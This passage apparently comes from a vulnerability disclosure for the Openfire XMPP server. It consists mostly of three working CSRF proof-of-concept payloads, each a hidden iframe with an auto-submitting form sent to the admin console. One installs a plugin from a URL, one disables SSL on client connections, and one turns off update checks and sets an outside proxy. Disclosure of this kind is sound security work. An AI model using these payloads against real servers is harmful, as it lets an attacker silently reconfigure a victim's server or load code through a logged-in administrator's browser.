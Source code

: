 ```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/dwr/exec/downloader.installPlugin.dwr" method="post" target="csrf-frame" >
    <input type="text" name="callCount" value="1" >
    <input type="text" name="c0-scriptName" value="downloader" >
    <input type="text" name="c0-methodName" value="installPlugin" >
    <input type="text" name="c0-id" value="9033_1444939787005" >
    <input type="text" name="c0-param0" value="string:http://www.igniterealtime.org/projects/openfire/plugins/broadcast.jar" >
    <input type="text" name="c0-param1" value="string:8221154" >
    <input type="text" name="xml" value="true" >
</form>

<script>document.getElementById("csrf-form").submit()</script>
```


#### *client-connections-settings.jsp* is vulerable to a CSRF attack.

The following HTML iframe command allows reproducing the attack against the Openfire *client-connections-settings.jsp* page:

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/client-connections-settings.jsp" method="post" target="csrf-frame" >
    <input type="text" name="port" value="5222" >
    <input type="text" name="sslEnabled" value="false" >
    <input type="text" name="sslPort" value="5223" >
    <input type="text" name="idleDisco" value="true" >
    <input type="text" name="clientIdle" value="360" >
    <input type="text" name="pingIdleClients" value="true" >
    <input type="text" name="update" value="Save Settings" >
</form>

<script>document.getElementById("csrf-form").submit()</script>
```

#### *manage-updates.jsp* is vulerable to a CSRF attack.

The following HTML iframe command allows reproducing the attack against the *Openfire manage-updates.jsp* page:

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/manage-updates.jsp" method="post" target="csrf-frame" >
    <input type="text" name="serviceEnabled" value="false" >
    <input type="text" name="notificationsEnabled" value="false" >
    <input type="text" name="proxyEnabled" value="true" >
    <input type="text" name="proxyHost" value="10.0.0.1" >
    <input type="text" name="proxyPort" value="6666" >
    <input type="text" name="update" value="Save Settings" >
</form>

<script>document.getElementById("csrf-form").submit()</script>
```
